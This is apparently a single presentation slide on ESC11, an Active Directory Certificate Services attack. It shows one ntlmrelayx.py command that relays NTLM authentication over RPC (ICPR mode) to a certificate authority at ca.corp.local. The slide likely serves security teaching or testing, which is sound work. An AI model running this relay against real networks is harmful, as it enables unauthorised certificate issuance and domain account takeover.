

# ESC11 - Don’t let HTTP have all the fun
ntlmrelayx.py -t rpc://ca.corp.local -rpc-mode ICPR -icpr-ca-name <CA> -smb2support